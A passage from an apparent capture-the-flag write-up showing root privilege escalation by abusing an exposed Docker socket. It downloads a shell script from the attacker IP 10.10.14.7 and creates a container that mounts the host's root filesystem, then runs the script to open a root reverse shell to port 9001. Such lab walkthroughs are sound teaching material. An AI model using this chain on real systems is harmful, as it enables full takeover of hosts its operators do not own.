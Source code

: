 ```
      "sandbox:latest"
    ],
    "SharedSize": -1,
    "Size": 5574537,
    "VirtualSize": 5574537
  },
(...)
]
```

The [Docker Engine API documentation](https://docs.docker.com/engine/api/v1.41/) explains all options that are possible with this service.
With this knowledge, we are able to create our own Docker container that runs prepared commands as soon as it starts.

Copying the shell script _shell.sh_ from before to the host in _/tmp_ that will be executed:
```
tomcat@VirusBucket:/tmp$ wget 10.10.14.7/shell.sh
```

Creating a JSON file _feline_container.json_ that contains the image _sandbox_ on the box and the command to run when the container starts:
```json
{
        "Image":"sandbox",
        "cmd":["/bin/sh","-c","chroot /mnt sh -c \"bash /tmp/shell.sh\""],
        "Binds": [
                "/:/mnt:rw"
        ]
}
```

Downloading the JSON file to the container:
```
root@2d24bf61767c:~# wget 10.10.14.7/feline_container.json
```

Creating Docker container with the JSON file:
```
curl -X POST -H "Content-Type: application/json" -d @feline_container.json --unix-socket /var/run/docker.sock http://localhost/containers/create

{"Id":"a69a34cec39d48d5e5460e313be7c9fd8be5ba89c92a9972acfd6a01b7b623dd","Warnings":[]}
```

Starting the container:
```
curl -X POST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/a69a34cec39d48d5e5460e313be7c9fd8be5ba89c92a9972acfd6a01b7b623dd/start
```

As soon as the container starts, the command from the JSON file will be executed.
It will execute the shell script _shell.sh_ from the host and the listener on my IP and port 9001 starts a reverse shell as root!
